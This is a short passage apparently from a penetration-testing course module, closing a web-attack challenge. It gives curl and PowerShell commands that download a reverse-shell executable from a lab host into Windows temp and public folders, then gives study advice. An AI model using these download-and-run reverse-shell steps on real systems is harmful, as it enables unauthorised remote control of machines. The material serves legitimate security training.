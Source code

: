 curl
```bash
curl http://192.168.45.222:8000/revshell.exe -o C:\Windows\Temp\revshell.exe
```

```bash
Invoke-WebRequest -Uri "http://192.168.45.222:8000/revshell.exe" -OutFile "C:\Windows\Temp\revshell.exe"
Invoke-WebRequest -Uri "http://192.168.45.222:8000/revshell.exe" -OutFile "C:\users\public\revshell.exe"


```
#### 16.4.4. Conclusion

We have fully exploited the first challenge machine and obtained a reverse shell. During this Learning Module, we learned the importance of enumeration and how to apply and modify the different web application attacks we learned throughout the course.

The remaining challenge machines can be attempted in any order. While each machine is different, they usually contain one authentication bypass vector and one remote code execution vector. The exercises and extra miles in the previous Learning Modules provide the knowledge and practice needed to exploit these machines.

If you're having trouble, consider filling in knowledge gaps in the course material. If you're still stuck, step back and take on a new perspective. It's easy to get so fixated on a single challenge that you ignore the fact that there may be a simpler solution waiting down a different path. Take good notes and review them often. Search for alternate paths that might advance your assessment. When all else fails, do not hesitate to reach out to the student administrators. Finally, remember that you often have all the knowledge you need to tackle the problem in front of you. Don't give up and always remember the "Try Harder" mindset!